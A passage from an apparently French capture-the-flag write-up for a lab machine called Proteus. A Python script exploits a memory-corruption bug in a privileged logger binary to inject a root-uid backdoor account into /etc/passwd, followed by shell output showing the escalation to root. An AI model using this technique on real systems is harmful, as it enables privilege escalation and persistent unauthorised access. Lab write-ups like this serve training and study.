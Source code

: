 Voici l'exploit :  

```python
target = "/etc/passwd"
# openssl passwd -1 -salt hacker s3cr3t
new_line = "hacker:$1$hacker$FCIsmt1ka5qjzYea7swTv0:0:0:{}:/root:/tmp/backdoor"
min_length = len(new_line.format(""))
padding = 456 - min_length
payload = new_line.format(padding * "A") + target
print(payload)
```

Et finalement :  

```plain
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger `python3 /tmp/exploit.py`
Writing datafile 0x954e1d0: '/etc/passwd'
*** Error in `./admin_login_logger': double free or corruption (!prev): 0x0954e008 ***
www-data@Proteus:/home/malwareadm/sites/proteus_site$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
--- snip ---
malwareadm:x:1000:1000:malwareadm,,,:/home/malwareadm:/bin/bash
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
!
hacker:$1$hacker$FCIsmt1ka5qjzYea7swTv0:0:0:AAAAAA--- snip ---AAAAAAA:/root:/tmp/backdoor/etc/passwd
www-data@Proteus:/home/malwareadm/sites/proteus_site$ mkdir -p /tmp/backdoor/etc/
www-data@Proteus:/home/malwareadm/sites/proteus_site$ cp /bin/bash /tmp/backdoor/etc/passwd
www-data@Proteus:/home/malwareadm/sites/proteus_site$ su hacker
Password:
root@Proteus:/home/malwareadm/sites/proteus_site# id
uid=0(root) gid=0(root) groups=0(root)
root@Proteus:/home/malwareadm/sites/proteus_site# cd /root
root@Proteus:~# ls
flag.png
root@Proteus:~# md5sum flag.png ;file flag.png
f441dd67d2f453b97775253cf1beb6a4  flag.png
flag.png: PNG image data, 700 x 700, 8-bit/color RGBA, non-interlaced
```

Le point d'exclamation s'explique par le fait que l'uid de www-data est 33.  

D'autres exploitations semblent possibles (crontab, authorized\_keys, script shell existant...)  

Boum
----

On peut profiter de nos privilèges pour changer les permissions sur le flag puis le rapatrier avec *tsh get*.  
